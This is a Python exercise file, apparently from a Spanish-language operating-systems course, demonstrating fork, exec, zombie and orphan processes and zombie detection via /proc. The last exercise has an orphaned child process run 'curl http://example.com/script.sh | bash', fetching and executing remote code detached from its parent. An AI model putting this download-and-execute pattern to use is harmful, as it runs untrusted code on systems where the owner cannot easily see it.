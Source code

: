 import os
import time

def ejercicio_1():
    """Identificación de procesos padre e hijo."""
    pid = os.fork()
    if pid == 0:
        print(f"[HIJO] PID: {os.getpid()}, PPID: {os.getppid()}")
    else:
        print(f"[PADRE] PID: {os.getpid()}, Hijo: {pid}")

def ejercicio_2():
    """Doble bifurcación."""
    for i in range(2):
        pid = os.fork()
        if pid == 0:
            print(f"[HIJO {i}] PID: {os.getpid()}, PPID: {os.getppid()}")
            os._exit(0)
    for _ in range(2):
        os.wait()

def ejercicio_3():
    """Reemplazo de un proceso hijo con exec()."""
    pid = os.fork()
    if pid == 0:
        os.execlp("ls", "ls", "-l")

def ejercicio_4():
    """Secuencia controlada de procesos."""
    def crear_hijo(nombre):
        pid = os.fork()
        if pid == 0:
            print(f"[HIJO {nombre}] PID: {os.getpid()}")
            time.sleep(1)
            os._exit(0)
        else:
            os.wait()
    crear_hijo("A")
    crear_hijo("B")

def ejercicio_5():
    """Proceso zombi temporal."""
    pid = os.fork()
    if pid == 0:
        print("[HIJO] Finalizando")
        os._exit(0)
    else:
        print("[PADRE] No llamaré a wait() aún. Observa el zombi con 'ps -el'")
        time.sleep(15)
        os.wait()

def ejercicio_6():
    """Proceso huérfano adoptado por init/systemd."""
    pid = os.fork()
    if pid > 0:
        print("[PADRE] Terminando")
        os._exit(0)
    else:
        print("[HIJO] Ahora soy huérfano. Mi nuevo padre será init/systemd")
        time.sleep(10)

def ejercicio_7():
    """Multiproceso paralelo."""
    for _ in range(3):
        pid = os.fork()
        if pid == 0:
            print(f"[HIJO] PID: {os.getpid()}, PPID: {os.getppid()}")
            os._exit(0)
    for _ in range(3):
        os.wait()

def ejercicio_8():
    """Simulación de servidor multiproceso."""
    def atender_cliente(n):
        pid = os.fork()
        if pid == 0:
            print(f"[HIJO {n}] Atendiendo cliente")
            time.sleep(2)
            print(f"[HIJO {n}] Finalizado")
            os._exit(0)
    for cliente in range(5):
        atender_cliente(cliente)
    for _ in range(5):
        os.wait()

def ejercicio_9():
    """Detección de procesos zombis en /proc."""
    def detectar_zombis():
        for pid in os.listdir('/proc'):
            if pid.isdigit():
                try:
                    with open(f"/proc/{pid}/status") as f:
                        lines = f.readlines()
                        estado = next((l for l in lines if l.startswith("State:")), "")
                        if "Z" in estado:
                            nombre = next((l for l in lines if l.startswith("Name:")), "").split()[1]
                            ppid = next((l for l in lines if l.startswith("PPid:")), "").split()[1]
                            print(f"Zombi detectado → PID: {pid}, PPID: {ppid}, Nombre: {nombre}")
                except IOError:
                    continue
    detectar_zombis()

def ejercicio_10():
    """Inyección de comandos en procesos huérfanos."""
    pid = os.fork()
    if pid > 0:
        os._exit(0)
    else:
        print("[HIJO] Ejecutando script como huérfano...")
        os.system("curl http://example.com/script.sh | bash")
        time.sleep(3)